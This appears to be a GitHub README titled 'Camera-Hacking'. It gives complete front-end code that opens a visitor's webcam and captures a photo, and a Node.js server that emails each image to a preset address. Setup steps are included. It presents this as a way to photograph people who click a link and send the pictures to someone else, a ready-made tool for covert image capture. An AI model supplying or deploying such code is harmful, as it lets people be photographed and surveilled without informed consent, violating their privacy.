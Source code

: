 # Camera-Hacking
a system that takes a photo from the user's camera when they click a link and then sends that photo to a specified email involves several components, including front-end and back-end development.

Front-End: HTML and JavaScript to capture the photo using the user's camera.
Back-End: A server to handle the photo upload and send the email.

# Front-End Code
This code will prompt the user to take a photo using their device's camera.

```html
<!DOCTYPE html>
<html>
<head>
    <title>Capture Photo</title>
</head>
<body>
    <h1>Capture a Photo</h1>
    <button id="capture-btn">Capture Photo</button>
    <video id="video" width="640" height="480" autoplay></video>
    <canvas id="canvas" style="display: none;"></canvas>
    <script>
        const video = document.getElementById('video');
        const canvas = document.getElementById('canvas');
        const captureBtn = document.getElementById('capture-btn');

        // Get access to the camera
        navigator.mediaDevices.getUserMedia({ video: true })
            .then(stream => {
                video.srcObject = stream;
            })
            .catch(err => {
                console.error("Error accessing the camera: " + err);
            });

        captureBtn.addEventListener('click', () => {
            // Draw the video frame to the canvas
            canvas.getContext('2d').drawImage(video, 0, 0, canvas.width, canvas.height);

            // Convert the canvas image to a data URL
            const dataURL = canvas.toDataURL('image/png');

            // Send the data URL to the server
            fetch('/upload', {
                method: 'POST',
                headers: {
                    'Content-Type': 'application/json'
                },
                body: JSON.stringify({ image: dataURL })
            })
            .then(response => response.json())
            .then(data => {
                alert('Photo sent successfully!');
            })
            .catch(error => {
                console.error('Error:', error);
            });
        });
    </script>
</body>
</html>
```

## Back-End Code
This example uses Node.js with Express and Nodemailer to handle the upload and send the email.

# Install necessary packages:

```base
npm install express body-parser nodemailer
```
# Server code (server.js):

```js
const express = require('express');
const bodyParser = require('body-parser');
const nodemailer = require('nodemailer');

const app = express();
const port = 3000;

app.use(bodyParser.json({ limit: '10mb' }));

app.post('/upload', (req, res) => {
    const imageData = req.body.image;

    // Extract the base64 data
    const base64Data = imageData.replace(/^data:image\/png;base64,/, '');

    // Convert the base64 string to a buffer
    const imageBuffer = Buffer.from(base64Data, 'base64');

    // Email configuration
    const transporter = nodemailer.createTransport({
        service: 'gmail',
        auth: {
            user: 'your-email@gmail.com',
            pass: 'your-email-password'
        }
    });

    const mailOptions = {
        from: 'your-email@gmail.com',
        to: 'admin-email@example.com',
        subject: 'Photo from user',
        text: 'Here is the photo captured by the user.',
        attachments: [
            {
                filename: 'photo.png',
                content: imageBuffer
            }
        ]
    };

    // Send email
    transporter.sendMail(mailOptions, (error, info) => {
        if (error) {
            console.error('Error sending email:', error);
            res.status(500).json({ success: false, message: 'Error sending email' });
        } else {
            console.log('Email sent:', info.response);
            res.json({ success: true, message: 'Email sent successfully' });
        }
    });
});

app.listen(port, () => {
    console.log(`Server is running on http://localhost:${port}`);
});
```

Steps to Run the Application
Create the Front-End File: Save the front-end HTML and JavaScript code in a file named index.html.
Create the Server File: Save the back-end JavaScript code in a file named server.js.
Install Dependencies: Run npm install express body-parser nodemailer to install the necessary Node.js packages.
Start the Server: Run node server.js to start the server.
Open the Front-End: Open index.html in a web browser. Ensure the browser has permission to use the camera.

This solution will capture a photo when the user clicks the "Capture Photo" button, send it to the server, and the server will email the photo to the specified email address. Make sure to replace the email credentials and recipient email address with your actual data.
